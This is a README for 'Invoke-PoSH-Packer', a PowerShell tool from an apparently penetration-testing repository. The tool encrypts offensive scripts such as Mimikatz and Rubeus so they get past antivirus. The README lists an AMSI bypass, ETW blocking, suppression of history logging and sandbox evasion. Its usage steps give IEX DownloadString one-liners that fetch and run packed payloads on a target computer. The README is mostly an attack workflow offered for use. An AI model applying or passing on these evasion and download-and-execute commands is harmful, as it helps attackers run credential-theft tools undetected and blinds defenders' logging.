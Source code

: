 ### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' allows to pack and encrypt offensive PowerShell scripts in order to bypass AV solutions such as Windows Defender.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on a domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - STEP 1. Generate a packed & encrypted version of a PowerShell script (e.g. invoke-mimikatz.ps1, invoke-rubeus.ps1) stored locally or on a remote web server
```
[*] First load the packer
    PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Jean-Francois-C/Windows-Penetration-Testing/master/Defense%20evasion%20(examples)/Invoke-PoSH-Packer/Invoke-PoSH-Packer.ps1');

[*] Then "pack/obfuscate" a PowerShell script stored locally (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 
    --- or ---
    PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox

[*] Or "pack/obfuscate" a PowerShell script stored on a remote web server (with or without the sandbox checks enabled)

    PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
    --- or ---
    PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
```
#### 
  - STEP 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-script.ps1'); Invoke-method-of-your-original-script

--- or (not recommended) ---
PS C:\> WGET -URI https://URL/Packed-script.ps1 -OutFile C:\temp\Packed-script.ps1
PS C:\> Import-Module C:\temp\Packed-script.ps1
PS C:\> Invoke-method-of-your-original-script
``` 

#### LICENSE
  - GNU General Public License v3.0
